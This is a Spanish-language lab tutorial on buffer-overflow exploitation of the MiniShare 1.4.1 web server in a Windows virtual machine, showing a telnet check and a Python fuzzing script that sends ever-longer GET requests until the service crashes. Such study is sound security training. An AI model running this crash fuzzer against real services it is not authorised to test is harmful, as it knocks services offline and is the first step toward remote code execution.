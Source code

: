 ----
- Tags: #bufferoverflow #x86 #windows #32bytes
-----
# Explicación

Con todo lo que hemos visto en esta sección vamos a explotar un binario llamado **MiniShare** que lo podemos descargar desde este [link](https://es.osdn.net/projects/sfnet_minishare/downloads/OldFiles/minishare-1.4.1.exe/) en la **máquina virtual Windows**, todo esto con el objetivo de reforzar todos los conocimientos que hemos aprendido.

# Pasos a seguir

Una vez descargado e instalado el servicio MiniShare, lo que hará este es montarnos un servicio a través del *puerto 80*, esto lo podemos verificar si hacemos un escaneo simple con ``nmap``, también si nos dirigimos desde nuestra máquina Linux a nuestro navegador y entramos a la web a través de la IP de la máquina windows veremos esto.

![[BOF 36.png]]

Nosotros en nuestro caso lo tendríamos que hacer por la herramienta ``telnet`` que usamos previamente en el anterior ejemplo, esto se debe a que lo tenemos que adecuar al empleo de la **librería** ``socket`` para **python3**.

- ``telnet 192.168.0.120 80``

Colocaríamos ``GET / HTTP/1.1`` daríamos al ``ENTER`` y luego al ``ENTER`` de nuevo.

![[BOF 37.png]]

## Fuzzing

Como siempre la primer etapa es el **Fuzzing**, por lo tanto lo que haremos será utilizar el Immunity Debugger para *Attach* al servicio **MiniShare**, de esta manera podremos ver todos los procesos a bajo nivel.

```python
#!/usr/bin/python3

from struct import pack
import socket
import sys
import os

# Variables globales
ip_address = "192.168.0.120"
port = 80

def exploit():
    
    total_length = 100

    while True:

        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(7)

            s.connect((ip_address, port))

            print("\n[+] Enviando %d bytes" % total_length)

            s.send(b"GET " + b"A"*total_length + b" HTTP/1.1\r\n\r\n")
            s.recv(1024)
            s.close()

            total_length += 100

        except:
            print("\n[!] El programa se ha detenido.")
            print("\n[i] Ha crasheado con un total de %d bytes" % total_length)
            sys.exit(1)

if __name__ == '__main__':
    
    exploit()

```

A partir de acá es cuestión de aplicar todo lo aprendido, suerte!